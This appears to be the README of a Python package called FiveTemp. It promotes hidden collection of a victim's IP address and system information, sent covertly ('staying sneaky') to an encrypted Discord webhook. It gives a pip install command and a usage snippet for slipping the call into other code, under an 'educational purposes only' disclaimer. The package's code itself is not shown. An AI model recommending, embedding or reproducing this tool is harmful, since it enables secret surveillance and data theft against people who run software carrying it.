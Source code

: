 
# FiveTemp

FiveTemp (5t) Is a Discord import designed soley for educational purposes. The cerator Abyzms is not responsible for any misusage or damadges caused using FiveTemp.




## Features

- IP Address configuration
- System Information
- Staying sneaky ;)
## Installation

Install FiveTemp

```bash
pip install fivetemp
```
    
## Feedback

If you have any feedback, please reach out to us at abyzms0+fivetemp@gmail.com
Or: Comment on our youtube video. https://www.youtube.com/@abyzmzs


## Usage/Examples
```python
5t -w [YOUR WEBHOOK]
```
^ This will output your encrypted webhook.
```python
import five_temp

five_temp.s('Encrypted_Webhook_Here')
# Rest of your code . . .
```